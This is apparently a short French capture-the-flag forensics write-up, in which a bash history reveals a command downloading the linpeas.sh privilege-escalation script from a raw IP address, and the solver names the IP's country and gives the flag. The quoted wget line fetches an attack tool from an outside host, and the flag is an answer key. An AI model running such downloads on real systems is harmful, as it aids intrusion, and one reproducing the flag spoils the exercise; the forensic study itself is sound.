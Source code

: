 
![bibliotheque_1](bibliotheque_1.png)

![bash_history](bash_history)
## Résolution

on récupère l’info utile : 
```
wget http://87.250.224.21/linpeas.sh  
```

On a le nom du script, plus qu’à chercher le pays d’où vient cette IP : la Russie

>[!question]- Spoiler du flag
> OPENNC{Russie_linpeas.sh}

